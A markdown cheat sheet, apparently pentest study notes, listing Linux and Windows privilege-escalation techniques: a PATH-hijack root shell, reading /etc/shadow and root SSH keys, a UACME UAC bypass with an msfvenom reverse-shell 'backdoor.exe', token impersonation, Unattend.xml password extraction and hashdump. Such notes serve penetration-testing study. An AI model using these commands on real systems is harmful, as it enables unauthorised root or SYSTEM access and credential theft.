 # Privilege Escalation
### Linux
- `sudo -l `
  - setenv?
- SUID/GUID
- Look for capabilities
- History Files
- Docker group
- Cron jobs
- SSH Keys
- PATH
- NFS
- Writable /etc/shadow
- Writable /etc/passwd
- Are there scripts that use commands?
  - If the command is executed without full path you can modify PATH variable
  - ` strings <program_name> `
  - you see ` tail -f /var/log/nginx/access.log `
  - ```
    #!/bin/bash
    /bin/bash -p
    ```
  - ` chmod +x /tmp/tail `
  - ` export PATH=/tmp:$PATH `
  - ` ./<program_name> `
- Is there a database? Can I access to it?
  - Look at config file or source code of webpages connecting to db
- Look at the source code of the php,py,jsp ... files of the website
  - Especially login files. Any password?
- Writable authorized_key folder?
  - generate new ssh keys
- Can I read some file with sudo?
  - /root/root.txt, /etc/shadow, /root/.ssh/id_rsa
- Can I write a file in the root user directory?
  - generate ssh key with ssh-keygen and save it in the root user dir
- Kernel Exploits
- Linpeas.sh
- [GTFObins](https://gtfobins.github.io)



### Windows 
<details>
<summary>UAC Bypass</summary>
 
- User Account Control (UAC) is a feature that enables a consent prompt for elevated activities.
- UACME
  - Prerequisites:
    1.  User must be a member of the Administrators group.
       - `net localgroup administrators`
    2. Full interactive shell with the victim (a common nc.exe shell is not enough).
       - You can use meterpreter
  - Procedure
    1. If architecture is x64 it's better to use meterpreter x64 or migrate to process x64 with sessions=1
       - `ps` to show process 
       - (ex. `migrate <PID explorer.exe>`)
    3. Upload Akagi (Akagi64.exe if x64)
    3. Create payload with msfvenom
       - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o backdoor.exe`
    5. Use exploit/multi/handler to start a listener
    6. Akagi64.exe 23 <payload_full_path>
       - **NOTE FULL PATH**
    7. Once run, we will get meterpreter session - getprivs/getsystem to get elevated privs
      
</details>

<details>
<summary>Impersonate Tokens</summary>
  
- With msfconsole: `load incognito`
- `list_tokens -u`
- `impersonate_token <token_name>`
- You may need to migrate process to a <user> process
  - Ex. `getpid` -> 2628, `ps` ->
    |PID  | PPID | Name | Arch | Session | User | Path|
    | ---  | --- | --- | ---  | --- | --- | --- |
    |2628 | 4780 | WHAYQtsbkO.exe |  | 1 | | |
    |... | ... | ... | ... | ... | ... | ... |
    |2948 | 2036 | explorer.exe | X64 | 1 | ATTACKDEFENSE\Administrator | C:\Windows\explorer.exe |
- `getpid 2948`
- Of course you can repeat the process to become NT AUTHORITY\SYSTEM

</details>

<details>
<summary>Password in configuration file (Unattend.xml)</summary>

- An answer file is an XML-based file that contains setting definitions and values to use during Windows Setup. Answer files (or Unattend files) are used by Administrators when they are setting up fresh images as it allows for an automated setup for Windows systems.
- ```
  C:\unattend.xml
  C:\Windows\Panther\Unattend.xml
  C:\Windows\Panther\Unattend\Unattend.xml
  C:\Windows\system32\sysprep.xml
  C:\Windows\system32\sysprep\sysprep.xml
  ```
- Extract password and decode it (from base64)
      
</details>

<details>
<summary>Credential Dumping (Mimikatz - Kiwi - Hashdump)</summary>

1) Method (Metasploit - Meterpreter)
   - `hashdump`

</details>

- Powershell History
- Saved Windows Credentials
  - cmdkey /list
  - runas /savecred /user:admin cmd.exe
- Scheduled Tasks
- Insecure Permissions on Service Executable
- Unquoted Service Paths
- Insecure Service Permissions
- Windows Privileges
- Unpatched Software

# Resource
https://juggernaut-sec.com/blog/
Resource | Description 
--- | ---
[GTFOBins](https://gtfobins.github.io/) | GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems

[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) | Linux Privilege Escalation Awesome Script
[pspy](https://github.com/DominicBreuker/pspy) | Monitor linux processes without root permissions
[Priv2Admin](https://github.com/gtworek/Priv2Admin)  | Windows Privileges with Windows OS privileges

